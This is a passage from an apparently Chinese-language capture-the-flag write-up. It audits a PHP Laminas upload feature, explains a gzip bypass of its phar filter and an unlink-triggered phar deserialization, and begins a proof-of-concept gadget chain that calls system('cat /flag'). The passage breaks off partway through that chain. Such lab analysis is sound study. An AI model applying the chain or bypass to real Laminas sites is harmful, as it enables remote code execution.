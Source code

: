 ```php
                //return $this->redirect()->toRoute('upload-form/success');
            }
        }
```

看这段

```php
if (preg_match("/<\?|php|HALT\_COMPILER/i", $cont )) {
                        die("Not This");
                    }
                    if($data["image-file"]["size"]<3000){
                        die("The picture size must be more than 3kb");
                    }
```

对我们上传的文件做了一些限制

```
1.不能出现<?php __HALT_COMPILER()  可用gzip方式绕过
2.上传的文件大小必须大于3kb
```

delete函数中

```php
if(in_array($base,$this->white_list)){     //白名单
                @unlink($imgpath);
```

`unlink()`函数是文件操作函数，可以触发`phar`反序列化的

结合以上信息，有链子，有触发点

![](https://i0.hdslb.com/bfs/album/e08962d0fc6f64d4fc7ea09a405b63a8001c2dc4.png)

很显然这题应该就是phar反序列化了

审计代码发现有个album路由，所以访问`imguploadAction()`方法也就是访问`album/imgupload`

### POC

```php
<?php

namespace Laminas\View\Resolver{
    class TemplateMapResolver{
        protected $map = ["setBody"=>"system"];
    }
}
namespace Laminas\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        function __construct(){
            $this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
        }
    }
}


namespace Laminas\Log\Writer{
    abstract class AbstractWriter{}

    class Mail extends AbstractWriter{
        protected $eventsToMail = ["cat /flag"];  
        protected $subjectPrependText = null;
        protected $mail;
        function __construct(){
            $this->mail = new \Laminas\View\Renderer\PhpRenderer();
```
